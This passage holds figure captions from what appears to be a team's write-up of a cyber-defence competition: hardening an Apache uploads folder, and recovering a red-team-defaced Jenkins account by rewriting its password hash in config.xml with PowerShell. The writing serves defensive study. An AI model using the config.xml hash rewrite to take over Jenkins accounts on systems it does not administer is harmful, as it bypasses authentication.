
Figure 18. plinkcom.conf after the fix: uploads block with AllowOverride None, php_admin_flag engine off and the .txt-only FilesMatch rules, plus the corrected dotfile rule.

Assembly: Jenkins password reset attempts
Figure 19. The Jenkins account page for plinktern, with the description set to "hi red guys", beside an administrator PowerShell session. The session runs the CCDC-Script tools installer (Sysinternals: Process Explorer, Autoruns, Sigcheck, TCPView), runs Set-LocalUser on jmoney with a secure password prompt three times (the last one cancelled), then fails to run jenkins-cli.jar because the file is missing.

Figures 20 to 23 are held back until the password hash and plaintext password in them are blurred: a PowerShell ISE script that stops the Jenkins service and rewrites plinktern's passwordHash in config.xml (Figure 20), a second version with two fixed config.xml paths (Figure 21), a third run from an ISE that was not elevated and could not open the service (Figure 22), and Groovy Script Console code pasted into PowerShell by mistake (Figure 23).